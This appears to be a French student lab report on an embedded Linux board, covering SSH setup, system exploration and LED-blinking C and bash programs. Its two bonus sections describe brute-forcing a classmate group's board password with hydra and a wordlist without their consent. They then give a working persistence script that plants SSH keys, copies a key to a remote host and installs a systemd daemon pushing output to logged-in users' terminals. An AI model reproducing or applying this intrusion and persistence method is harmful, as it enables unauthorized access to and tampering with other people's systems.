








# TP_Linux

## 1. Prise en main
### 1.1 Préparation de la carte SD

### 1.2 Connection par liaison série
La première connection avec la carte se fait par liaison série. À l'aide de PuTTy, une liaison est établie entre un ordinateur et le port uart (usb mini) de la carte.

Au lancement de la liaison il est necessaire de se connecter avec l'identifiant et le mot de passe renseignés lors de la configuration de la carte SD. Dans notre cas:
identifiant: root
mot de passe:

Grâce à la commande `df -h`, il est possible de connaitre la taille occupée dans la carte SD. Executer cette commande permet de voir que le système de fichier n'occupe pas l'ensemble de l'espace de la carte SD. Pour remédier à cela, nous exécutons la commande `./expan_rootfs.sh`, puis nous lançons un reboot de la cate avec la commande `./resize2fs_once`.



### 1.3.3 Configuration réseau
On configure la carte pour qu'elle soit accessible en SSH. Pour cela, on utilise la commande `ifconfig` pour connaitre l'adresse IP de la carte. On utilise ensuite la commande `ssh root@<adresse IP>` pour se connecter à la carte en SSH.
On édite ensuite le fichier `/etc/network/interfaces`

``` bash
auto eth0
iface eth0 inet static
allow-hotplug eth0
```
## 1.4 Découverte de la cible
### 1.4.1 Exploration des dossiers /sys/class et /proc


On récupère les informations sur le processeur avec la commande `cat /proc/cpuinfo`


On utilise iomem pour récupérer les informations de la mémoire




Et on peut voir que `cat ioports` ne retourne pas d'informations

Le répertoire `/sys/class` contient des informations sur les périphériques de la carte. On peut voir que la carte contient un périphérique `leds` qui permet de gérer les leds de la carte. On peut aussi voir que la carte contient un périphérique `gpio` qui permet de gérer les GPIO de la carte.

Le répertoire `/proc` contient des informations sur les processus en cours d'exécution. On peut voir que la carte contient un fichier `cpuinfo` qui permet de récupérer des informations sur le processeur. On peut aussi voir que la carte contient un fichier `meminfo` qui permet de récupérer des informations sur la mémoire.

### 1.4.2 Compilation croisée

On installe la vm pour compiler le noyau linux. 


### 1.4.3 Hello world !

On programme et on compile on programme simple qui écrit "Hello world !" dans la console. On transfère ensuite le programme sur la carte et on l'exécute.
```c
#include <stdio.h>

int main(int argc,char **argv){
    printf("hello, world !\n");
    return 0;
}
```
On peut voir que le programme s'exécute correctement :



### 1.4.4 Accès au matériel

On peut accèder au matériel de la carte grâce aux fichiers présents dans le répertoire `/sys`. On peut par exemple accèder aux leds de la carte grâce au fichier `/sys/class/leds/fpga_led1/brightness`. On créé un script qui permet de faire clignoter les leds de la carte.

```bash
#!/bin/bash
# Boucle pour allumer et éteindre les 9 LEDs
for i in {1..9}; do
    echo "1" > "/sys/class/leds/fpga_led$i/brightness"
    sleep 0.5  # Temps en secondes pendant lequel la LED est allumée
    echo "0" > "/sys/class/leds/fpga_led$i/brightness"
done
```
On voit alors les leds de la carte s'allumer et s'éteindre successivement.


### 1.4.5 Chenillard

On créé un programme en c cette fois pour réaliser un chenillard sur les leds de la carte. On transfère ensuite le programme sur la carte et on l'exécute.

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

#define NUM_LEDS 9

int main(void)
{
    FILE * LED[NUM_LEDS];

    for(int index = 0; index < 9; index++)
    {
        char name[300];
        snprintf(name,300,"/sys/class/leds/fpga_led%d/brightness", index+1);
        printf("sprint reussi %d\n\r",index);
        LED[index] = fopen(name,"w");
        if(LED[index]==NULL)
        {
            printf("Erreur lors de l'ouverture d'un fichier");
            exit(1);
        }
    }
    while(1)
    { 
        for(int i = 0; i<NUM_LEDS; i++)
        {
            if(i != 0)
            {
                printf("led %d OFF\r\n",(i-1));
                fprintf(LED[i-1],"0");
                fflush(LED[i-1]);
            }
            else
            {
                printf("last led OFF\r\n");
                fprintf(LED[NUM_LEDS-1],"0");
                fflush(LED[NUM_LEDS-1]);
            }
            printf("led %d\n\r",i);
            fprintf(LED[i],"1");
            fflush(LED[i]);
            usleep(50000);
        }
    }
    return 0;
}
```


## 2. Module Kernel


## Bonus 1 : Hacking non-éthique 👀

Les cartes sont toutes connectées en réseau et on un mot de passe par défaut. Il est donc possible de se connecter à une carte à distance. Pour cela, il faut connaitre l'adresse IP de la carte.
On utilise un scanner d'ip pour scanner le réseau et trouver l'adresse IP des cartes connectées.

La cible est la carte d'un des groupe de la classe qui a protégé sa carte avec un mot de passe. On utilise donc un outil de bruteforce pour trouver le mot de passe de la carte. On utilise l'outil hydra avec une wordlist pour trouver le mot de passe.
La wordlist utilisée est la wordlist richelieu qui contient les mots de passe les plus utilisés en France.

On utilise une VM kali qui contient tous les outils nécessaires pour réaliser cette attaque.



Le mot de passe de la carte est trouvé en 4 minutes 😁.

## Bonus 2 : Scripting 👨‍💻

On a maintenant accès à la carte. On peut donc réaliser un script qui permet de récupérer les données de la carte et de les envoyer sur un serveur distant.

On va installer automatiquement le package sl sur la carte puis générer un daemon systemd qui va executer la commande sl toutes les 5 minutes. On va aussi installer une clé ssh sur la carte pour pouvoir se connecter à distance sans mot de passe.

Le script est le suivant:


```bash
#!/bin/bash

# Stop and disable the sl service if it's running
echo "Stopping and disabling the sl service if it's running"
systemctl stop sl.service
systemctl disable sl.service

# Install ssh key
echo "Running ssh-keygen"
ssh-keygen -t rsa -b 4096 -C "" -f /root/.ssh/id_rsa -N ""
echo "ssh key generated successfully"

# Display the public key
echo "Here is the public key:"
cat /root/.ssh/id_rsa.pub

# Copy ssh key
echo "Copying ssh key"
ssh-copy-id -i /root/.ssh/id_rsa.pub root@
echo "ssh key copied successfully"

# Install sl
echo "Installing sl"
apt update
apt install -y sl
echo "sl installed"

# Create command script
echo "#!/bin/bash
terminals=(\"/dev/pts/0\" \"/dev/pts/1\" \"/dev/pts/2\")
# Iterate through each terminal and send the 'sl' command
for term in \${terminals[@]}; do
  if [ -c \"\$term\" ]; then
    /usr/games/sl > \"\$term\"
    echo \"Sent 'sl' command to \$term\"
  else
    echo \"Terminal \$term not found or not accessible.\"
  fi
done

" > /usr/local/bin/command.sh


# Make command script executable
chmod +x /usr/local/bin/command.sh
echo "Command script created and made executable"

# Create daemon
echo "Creating daemon"
echo "[Unit]
Description=SL Daemon

[Service]
ExecStart=/bin/bash -c "/usr/local/bin/command.sh"
Restart=always
RestartSec=30

[Install]
WantedBy=multi-user.target" > /etc/systemd/system/sl.service

echo "Daemon created"

# Enable daemon
echo "Enabling daemon"
systemctl enable sl.service
echo "Daemon enabled"

# Start daemon
echo "Starting daemon"
systemctl start sl.service
echo "Daemon started"

```


Chaque utilisateur connecté à la carte reçoit un train toutes les 5 minutes.

Démo sur Youtube: [lien](https://youtu.be/H97HoAiaLtM)

